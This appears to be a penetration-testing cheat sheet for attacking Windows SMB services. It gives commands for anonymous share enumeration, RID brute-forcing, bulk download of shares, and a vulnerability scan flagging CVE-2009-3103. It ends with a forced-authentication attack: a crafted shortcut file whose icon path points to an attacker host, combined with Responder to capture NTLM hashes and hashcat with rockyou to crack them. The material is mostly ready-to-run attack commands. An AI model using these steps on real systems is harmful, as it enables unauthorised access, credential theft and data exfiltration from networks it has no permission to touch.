 ```jsx
smbclient -N -L \\\\192.168.1.1
smbclient \\\\192.168.1.1\\setup
smb: \> get file.txt

nxc smb 192.168.1.1 -u guest -p "" --rid-brute  #DC
smbmap -u guest -p "" -d . -H 

enum4linux -a 192.168.1.1
nmap --script vuln -p 139,445 $target -Pn -sCV


OS: Windows Server (R) 2008 Standard 6001 Service Pack 1 (Windows Server (R) 2008 Standard 6.0)
CVE-2009-3103


smbclient -U fake.com/dave  -L 172.16.1.1
smbmap -u dave -H 192.168.1.1 -r
crackmapexec  smb 192.168.1.1 --shares
nxc  smb 172.16.1.1 -u 'user' -p 'pass' --shares
nxc  smb 172.16.1.1 -u 'user' -p 'pass' -M spider_plus -o DOWNLOAD_FLAG=True

nmap --script "safe or smb-enum-*" -p 445 192.168.1.1
```

Download all

```jsx
smbclient -U '%' \\\\192.168.1.1\\dave
> mask ""
> recurse on
> prompt off
> cd 'path\to\remote\dir'
> lcd '~/path/to/download/to/'
> mget *
```

Writable SMB Share - upload script to force nltm authenticate

> https://github.com/Greenwolf/ntlm_theft
> 

```jsx
//enum username
nxc smb 192.168.1.1 -u guest -p "" --rid-brute
//force authenticate for Nltm
sudo responder -I tun0
python3 ntlm_theft.py -g lnk -s 192.168.1.1 -f file
smb: > mput file.lnk

//file.lnk

[InternetShortcut]
URL=anything
WorkingDirectory=anything
IconFile=\\192.168.1.1\%USERNAME%.icon
IconIndex=1

//crack
hashcat -m 5600 crack.hash /usr/share/wordlists/rockyou.txt --force
```
